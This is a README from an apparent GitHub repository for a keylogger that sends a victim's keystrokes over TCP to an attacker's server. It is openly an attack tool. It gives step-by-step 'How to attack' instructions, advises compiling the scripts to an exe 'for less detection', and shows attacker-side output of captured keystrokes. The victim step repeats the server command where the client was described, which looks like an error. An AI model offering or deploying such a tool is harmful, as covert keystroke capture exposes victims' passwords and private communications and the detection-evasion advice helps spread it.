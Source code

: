 # Chrome_keylogger
A keylogger that shares keystrokes over a local TCP connection.

# How to attack:
First of all, you can edit the code a bit and compile all the scripts into exe for less detection.

Follow these steps:
  1- The victim must run the client's script, when the file is ran, the keylogger and the TCP Client will start too. 
  2- The attacker must run the server's script then bind the server's IP and port. 
  3- The attacker will start receiving keystrokes from the victim's computer.

# Deeper demonstration:
Attacker:
    
    attacker@kali:~$ python3 server.py
    
    IP: 192.168.x.x
    Port: 8080
    Client (client_ip) connected.
    
    2020-10-12 22:05:35,120: 'h'
    2020-10-12 22:05:35,390: 'i'
    2020-10-12 22:05:36,258: Key.space
    2020-10-12 22:05:36,631: 't'
    2020-10-12 22:05:36,806: 'h'
    2020-10-12 22:05:36,963: 'e'
    2020-10-12 22:05:37,080: 'r'
    2020-10-12 22:05:37,168: 'e'
    
Victim:

    victim@kali:~$ python3 server.py    
